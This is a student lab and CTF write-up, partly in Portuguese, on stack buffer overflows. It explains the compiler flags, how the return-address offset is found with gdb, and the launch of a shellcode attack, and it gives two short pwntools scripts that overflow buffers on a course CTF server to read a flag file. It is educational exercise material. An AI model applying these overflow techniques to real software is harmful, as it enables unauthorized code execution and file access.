



# Trabalho realizado na Semana #6

## Task 1 : Getting Familiar with Shellcode

Both the 32-bit and 64-bit programs gave access to a new non-root shell. This was proof that the inserted shellcode was working as intended. The 32-bit also worked because the -m32 flag was used on the compilation.

---
## Task 2 : Understanding the Vulnerable Program

In order for the exploits to work properly, the vulnerable program should be compiled with some flags:

- **-fno-stack-protector**: This flag disables the stack-smashing protector that is enabled by default in gcc (this isn't the default behaviour of gcc but some Linux distributions have patched gcc to enable it by default).
- **-z execstack**: This flag passes the keyword `execstack` directly to the linked. The keyword itself allows for execution of instructions on the stack.

The rest of the instructions just make the program a root-owned SET-UID program. This was already done and explained in the previous Lab.

---
## Task 3 : Launching Attack on 32-bit Program (Level 1)

### Step 1 - Investigation

By investigating the code presented in the *stack.c* file, it's clear to see that the *bof* function has a vulnerability because of the use of the *strcpy* function, which doesn't check for size when copying a given buffer.

In order to discover the distance between the buffer's starting position and the place where the return-address is stored, we used a debugging tool (gdb). With this, we created a breakpoint inside the *bof()* function and ran the program. Afterwards, we used the command `p $ebp` to get the value of *ebp* (which stores the stack pointer when we entered the function) and `p $buffer` to get the buffer's starting address.

We can get the desired distance by subtracting these 2 values. We can then use this value for an offset, when calculating the address where the return address of *bof()* is stored.

### Step 2 - Launching Attacks

For the attack itself, we used the same shellcode as in Task 1. Regarding the values used for the attack, we used:

- **start**: 0, since it represents the start of the Python's array. This will make sure the shellcode is saved in the start of the buffer and not be corrupted by the bytes we'll write in the next steps.
- **ret**: The start address of the buffer, previously checked via the gdb debugger. This will be the address which the *bof()* function will enter after returning. In our case, 0xffffca3c.

- **offset**: The difference between the address after the $ebp and the start of the buffer. This can be calculated by using the values in step 1 and adding 4, since the ebp variable is 4 bytes long.





After running the exploit script (shown above) to create a *badfile*, we gained access to a shell after executing the *stack.c* program, where the *bof* function is called.



It is worth noting that the attack only works by running the program with the debugger, since the address values will differ when using the tool.

## CTF - Desafio 1

O primeiro desafio desta semana trata-se de um simples buffer overflow, com o objetivo de escrever por cima de uma variável que contém o nome do ficheiro a ser lido pelo programa. Assim sendo, enviou-se a string "1234567890123456789\0flag.txt" para o servidor, codificado em bytes.

Em baixo, segue-se o código do exploit:
```python
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"1234567890123456789\0flag.txt")
r.interactive()
```

## CTF - Desafio 2

O segundo desafio é semelhante ao primeiro, com a diferença de que não podemos simplesmente dar overflow ao buffer. É necessário escrever valores específicos de forma a que a variável *val*tenha o mesmo valor que está a ser comparado na condição *if*, que se encontra num endereço de memória entre o buffer e a variável com o nome do ficheiro a ser lido.
Assim sendo, enviamos a string "12345678901234567890" para preencher o buffer, os bytes 0xfefc2122 a serem guardados na variável *val* e a string "flag.txt" para ler a flag.

Em baixo, segue-se o código do exploit:
```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

ola = bytearray(b"12345678901234567890")
ola.append(0x22)
ola.append(0x21)
ola.append(0xfc)
ola.append(0xfe) # little order
ola.extend(b"flag.txt")

r.recvuntil(b":")
r.sendline(ola)
r.interactive()
```
